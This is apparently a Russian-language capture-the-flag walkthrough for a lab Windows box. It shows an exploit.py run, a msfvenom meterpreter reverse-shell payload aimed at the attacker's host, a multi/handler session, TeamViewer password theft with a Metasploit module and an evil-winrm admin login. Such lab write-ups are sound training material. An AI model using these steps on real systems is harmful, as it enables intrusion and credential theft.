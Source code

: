 ```bash
 python exploit.py -u user -p password -i '10.10.10.190' -c powershell.exe 'ls C:'
```

вышло, видим содержимое диска C

пора собирать полезную нагрузку
[[metasploit#msfvenom]]

```bash
 msfvenom -p windows/meterpreter/reverce_tcp LHOST=<наш ip> LPORT=6675 -f exe >payload.exe
```

есть, запустим **multi/handler** в [[metasploit]] чтобы поймать подключение.

Теперь сгрузим нашу полезную нагрузку через админку

зайдем на страницу с подробной информацией о файле, найдем его местоположение (можно и просто отследить по дате изменения папок)

запустим наш python exploit еще раз  
на диске C видно папку inetpub[[IIS]] погуглив узнаем что это наш веб сервер

дальше wwwroot

ну а дальше и так понятно, по тому пути который мы узнали, ну или в любом случае немного подумав становится понятно, что все что загружено обычно находится в media.

теперь запускаем сгруженый exe

ловим сессию

идем в пользователей

попробуем зайти к админу в гости, увы, но нельзя

сходим в Public получим флаг user.txt

запустим winpeas чтобы облегчить себе задачу

из вывода видно что у нас есть [[TeamViwer]]

окей, идем в папку с ним, посмотрим версию

Версия 7

используем один из модулей [[metasploit]]

**post/windows/gather/credentials/team_viewer_passwords**

получили пароль

чтобы зайти используем [[evil-winrm]]

```bash
evil-winrm -u Administrator -p password -i 10.10.10.180
```

мы админ! Походив по папкам находим root.txt на рабочем столе